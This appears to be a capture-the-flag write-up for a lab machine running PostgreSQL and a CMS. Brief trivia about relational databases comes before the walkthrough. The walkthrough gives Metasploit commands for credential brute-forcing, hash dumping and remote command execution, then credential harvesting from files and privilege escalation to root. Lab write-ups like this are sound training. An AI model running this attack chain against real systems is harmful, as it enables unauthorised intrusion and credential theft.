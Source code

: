 
# Trivia

Depending on the EF Codd relational model, an RDBMS allows users to build,
update, manage, and interact with a relational database,
which stores data as a table.

Today, several companies use relational databases
instead of flat files or hierarchical databases to store business data.
This is because a relational database can handle a
wide range of data formats and process queries efficiently.
In addition, it organizes data into tables that can be linked internally
based on common data. This allows the user
to easily retrieve one or more tables with a single query.
On the other hand, a flat file stores data in a single table structure,
making it less efficient and consuming more space and memory.  

Most commercially available RDBMSs currently use Structured Query Language (SQL)
to access the database.
RDBMS structures are most commonly used to perform CRUD operations
(create, read, update, and delete),
which are critical to support consistent data management.  

#### Types of databases

- Centralised database.
- Distributed database.
- Personal database.
- End-user database.
- Commercial database.
- NoSQL database.
- Operational database.
- Relational database.
- Cloud database.
- Object-oriented database.
- Graph database.

# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.127.152
```

Output:  

```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Poster CMS
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
|_ssl-date: TLS randomness does not represent time

Aggressive OS guesses: Linux 3.10 - 3.13 (95%)
```

Searching in msfconsole for postgresql I find an auxiliary module that
lets us enumerate user credential called
**/auxiliary/scanner/postgres/postgres_login**  

```bash
msf5> use auxiliary/scanner/postgres/postgres_login
> set rhosts 10.10.127.152
> run
```

Output:  

```bash
postgres:password@template1
```

Searching again in msfconsole for postgresql I find an auxiliary module that
allows you to execute commands with user creds named
**/auxiliary/scanner/postgres/postgres_sql**  

```bash
msf5> use auxiliary/admin/postgres/postgres_sql
> set password password
> set rhosts 10.10.127.152
> run
```

We get the version: **9.5.21**  

Output:  

```bash
PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
```

Lets know dump user hashes. Again with metasploit
**auxiliary/scanner/postgres/postgres_hashdump**

```bash
msf5> use auxiliary/scanner/postgres/postgres_hashdump
> set password password
> set rhosts 10.10.127.152
> run
```

Output:

```bash
Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc
```

We can read files with **auxiliary/admin/postgres/postgres_readfile**  
And we can get RCE with
**exploit/multi/postgres/postgres_copy_from_program_cmd_exec**  

# Exploitation

```bash
msf5> use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
> set password password
> set rhosts 10.10.127.152
> run
```

We get a shell and then

```bash
cat /home/dark/credentials.txt
dark:qwerty1234#!hackme
```

SSH in the machine

```bash
ssh dark@10.10.127.152
```

After some failed attempts to enumerate I found some interesting stuff

```bash
cat /var/www/html/config.php

$dbhost = "127.0.0.1";
$dbuname = "alison";
$dbpass = "p4ssw0rdS3cur3!#";
$dbname = "mysudopassword";

su alison
cat /home/alison/user.txt
sudo su
cat /root/root.txt
```

```json
```
